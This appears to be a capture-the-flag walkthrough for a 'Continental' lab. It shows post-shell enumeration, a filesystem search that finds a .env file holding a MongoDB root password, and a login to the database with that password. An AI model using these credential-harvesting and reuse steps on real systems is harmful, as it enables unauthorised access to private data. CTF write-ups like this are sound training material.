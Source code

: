 # Continental CTF Challenge: Complete Step-by-Step Walkthrough

## 1. Initial Access
### 1.2 Initial Enumeration
Once we had shell access, we performed basic enumeration:

```bash
# Check current user and system info
whoami  # Output: aurora
id
uname -a
pwd     # Found we were in /home/aurora/reservia

# Check network configuration
ip addr show
# Found we were on 172.20.4.64/24 network
```

## 2. Database Discovery
### 2.1 Finding Database Credentials
We searched for database configuration files:

```bash
# Look for common config files
find / -name "*.php" -o -name "*.js" -o -name "*.env" 2>/dev/null | grep -i config

# Found interesting file at ~/reservia/.env
cat ~/reservia/.env
# Output:
# PORT = 9000
# MONGODB_URI = mongodb://root:MVpPdAUTr3aQ8eap2GCeaLth@localhost:27017
```

### 2.2 Connecting to MongoDB
We used the found credentials to connect to MongoDB:

```bash
# Connect to MongoDB
mongosh "mongodb://root:MVpPdAUTr3aQ8eap2GCeaLth@localhost:27017"

# List all databases
show dbs
# Found: admin, config, local, reservia

# Switch to reservia database
use reservia

# List collections
show collections
# Found: hotel_reservations, hotels
```
